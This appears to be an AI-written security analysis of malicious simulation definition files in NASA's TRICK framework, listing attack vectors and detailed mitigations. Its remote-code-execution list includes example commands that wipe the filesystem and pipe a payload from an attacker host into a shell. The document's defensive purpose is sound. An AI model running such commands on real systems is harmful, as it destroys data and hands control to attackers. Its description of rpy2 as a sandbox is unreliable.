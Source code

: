 ## Deep Analysis: Maliciously Crafted Simulation Definition Files (S-files) in NASA TRICK

This analysis delves deeper into the attack surface presented by maliciously crafted Simulation Definition Files (S-files) within the NASA TRICK framework. We will explore the technical nuances, potential attack vectors, and provide more granular mitigation strategies for the development team.

**1. Deeper Dive into the Attack Surface:**

The core vulnerability lies in TRICK's inherent trust in the content of the S-files. Since TRICK is designed to interpret and execute the logic within these files, any malicious code embedded within them will be executed with the privileges of the TRICK process. This creates a significant attack surface because:

* **S-files are the "Blueprint" for Simulation:** They dictate the behavior and interactions within the simulation environment. This makes them a powerful point of control for attackers.
* **Complexity of S-file Syntax:**  While the exact syntax isn't specified in the prompt, simulation definition languages are often complex, allowing for intricate logic and potentially obscure ways to embed malicious code. This complexity can make manual review difficult and increase the likelihood of overlooking vulnerabilities.
* **Potential for External Resource Interaction:** S-files might not just define internal simulation logic. They could potentially interact with external resources like databases, network services, or the underlying operating system, depending on TRICK's capabilities and the allowed functionalities within S-files. This expands the potential impact of malicious code.
* **Human Element:** Users, even with good intentions, might inadvertently introduce vulnerabilities through copy-pasting from untrusted sources, using insecure templates, or misunderstanding the implications of certain S-file constructs.
* **Supply Chain Risks:** If S-files are sourced from external parties or repositories, a compromise in the supply chain could lead to the introduction of malicious files.

**2. Technical Analysis of TRICK's Role in the Vulnerability:**

Understanding how TRICK processes S-files is crucial to mitigating this attack surface:

* **Parsing and Interpretation:** TRICK likely has a parser that reads and interprets the S-file syntax. Vulnerabilities can exist within this parser itself (e.g., buffer overflows, format string bugs) if it doesn't handle malformed or excessively large files correctly.
* **Execution Engine:** Once parsed, the logic is executed by TRICK's engine. This is where the lack of sandboxing becomes critical. If TRICK doesn't isolate the execution of S-file logic, malicious code will run with the same privileges as the TRICK process.
* **Access Control within TRICK:**  Does TRICK have any internal access control mechanisms that limit what S-file logic can do? If not, any code within the S-file has potentially unrestricted access to system resources.
* **Language Features:** The specific features of the language used in S-files (if it's a custom language) or the interpreted language (e.g., Python, Lua) can introduce vulnerabilities. For example, allowing direct system calls or arbitrary code execution within the S-file language is inherently risky.
* **Error Handling:** How does TRICK handle errors during S-file parsing and execution?  Poor error handling might mask malicious activity or provide attackers with information about the system.

**3. Detailed Attack Vectors and Scenarios:**

Beyond the example of deleting critical system files, here are more detailed attack vectors:

* **Remote Code Execution (RCE):**
    * **System Calls:** Injecting commands to execute arbitrary system commands (e.g., `rm -rf /`, `curl attacker.com/payload | sh`).
    * **Library Exploitation:**  If S-files can interact with external libraries, vulnerabilities in those libraries could be exploited.
    * **Code Injection in Interpreted Languages:** If S-files use an interpreted language, attackers could inject malicious code snippets that are evaluated by the interpreter.
* **Data Exfiltration:**
    * **Network Requests:**  Injecting code to send sensitive data (simulation results, configuration details) to an attacker-controlled server.
    * **File Access:**  Reading sensitive files from the server's file system and transmitting them.
* **Denial of Service (DoS):**
    * **Resource Exhaustion:** Creating S-files that consume excessive CPU, memory, or disk space, causing the TRICK process or the entire system to crash.
    * **Infinite Loops or Recursive Calls:**  Introducing logic that leads to infinite loops or excessive recursion, tying up resources.
* **Privilege Escalation (Potentially):** If the TRICK process runs with elevated privileges, successful code execution within a malicious S-file could grant the attacker those elevated privileges.
* **Backdoor Creation:** Injecting code that establishes a persistent backdoor, allowing the attacker to regain access to the system later.
* **Data Manipulation:** Modifying simulation parameters or data in a way that compromises the integrity of the simulation results or has downstream consequences.

**4. Enhanced Mitigation Strategies with Technical Details:**

The provided mitigation strategies are a good starting point, but here's a more detailed breakdown:

* **Implement Strict Input Validation on S-files:**
    * **Syntax Checks:** Use a robust parser that strictly adheres to the expected S-file syntax and rejects malformed files.
    * **Schema Validation:** Define a clear schema for S-files and validate incoming files against it. This ensures that the structure and data types are as expected.
    * **Semantic Validation:** Go beyond syntax and schema. Analyze the meaning and relationships within the S-file. For example, check for logical inconsistencies or potentially dangerous combinations of parameters.
    * **Whitelisting:** If possible, define a whitelist of allowed commands, functions, or keywords within S-files. This drastically reduces the attack surface.
    * **Blacklisting (Use with Caution):** Blacklisting known malicious patterns can be helpful but is less effective against novel attacks.
    * **Size Limits:** Impose limits on the size of S-files to prevent resource exhaustion attacks during parsing.
    * **Depth Limits:** For nested structures within S-files, limit the nesting depth to prevent stack overflow vulnerabilities.
* **Sandbox the Execution Environment for Initial Parsing and Execution:**
    * **Operating System-Level Sandboxing:** Utilize technologies like containers (Docker, Podman) or virtual machines to isolate the TRICK process and its execution environment.
    * **Language-Level Sandboxing:** If the S-file language allows it, use secure execution environments or restricted execution modes that limit access to system resources. For example, Python's `ast.literal_eval` for safely evaluating expressions or restricted execution environments like `rpy2` for R.
    * **Process Isolation:** Run the TRICK process with the least necessary privileges. Avoid running it as root.
    * **System Call Filtering:** Use tools like `seccomp` to restrict the system calls that the TRICK process can make.
* **Avoid Allowing Users to Directly Upload or Modify S-files in Production Environments:**
    * **Code Repository Management:** Store and manage S-files in a version-controlled repository with strict access controls and code review processes.
    * **Deployment Pipelines:** Implement automated deployment pipelines that handle the transfer of validated S-files to production environments.
    * **Immutable Infrastructure:** Consider using immutable infrastructure where changes require a new deployment rather than direct modification of existing files.
* **If Dynamic S-file Generation is Necessary, Ensure Robust Sanitization and Validation of All User-Provided Inputs Used in the Generation Process:**
    * **Input Sanitization:**  Thoroughly sanitize all user inputs used in S-file generation to prevent injection attacks (e.g., escaping special characters, validating data types).
    * **Parameterized Generation:** Use parameterized generation techniques or templating engines that prevent direct concatenation of user input into S-file code.
    * **Output Validation:**  Even after generation, validate the generated S-file before using it.
* **Consider Using a More Restrictive Language or Configuration Format for Defining Simulations if Full S-file Flexibility is Not Required:**
    * **Domain-Specific Languages (DSLs):** Design a DSL that provides the necessary functionality for defining simulations but restricts potentially dangerous operations.
    * **Configuration Files (e.g., YAML, JSON):** For simpler simulations, using structured configuration files with predefined keys and values can significantly reduce the attack surface.
    * **Graphical User Interfaces (GUIs):** Provide a GUI for defining simulations, which can abstract away the complexities of S-file syntax and enforce security constraints.
* **Code Review and Security Audits:**
    * **Regular Code Reviews:** Have experienced developers review the TRICK codebase, especially the S-file parsing and execution logic, for potential vulnerabilities.
    * **Penetration Testing:** Conduct regular penetration testing by security experts to identify and exploit vulnerabilities in the system.
    * **Static and Dynamic Analysis Tools:** Utilize automated tools to scan the codebase for potential security flaws.
* **Monitoring and Logging:**
    * **Log S-file Usage:** Track which S-files are being used and by whom.
    * **Monitor System Activity:** Monitor the TRICK process for suspicious activity, such as unexpected network connections, file access, or high resource consumption.
    * **Alerting:** Implement alerts for potentially malicious events.
* **Principle of Least Privilege:** Ensure the TRICK process runs with the minimum necessary privileges to perform its tasks.
* **Security Awareness Training:** Educate users and developers about the risks associated with malicious S-files and secure coding practices.

**5. Conclusion:**

The attack surface presented by maliciously crafted S-files is a critical concern for the NASA TRICK application. The ability to execute arbitrary code within the context of the TRICK process poses a significant risk to system integrity, confidentiality, and availability. A layered security approach, combining strict input validation, sandboxing techniques, secure development practices, and ongoing monitoring, is essential to mitigate this risk effectively. The development team should prioritize implementing the enhanced mitigation strategies outlined above to ensure the security and reliability of the TRICK framework. Regularly reassessing this attack surface and adapting security measures to emerging threats is also crucial for long-term security.
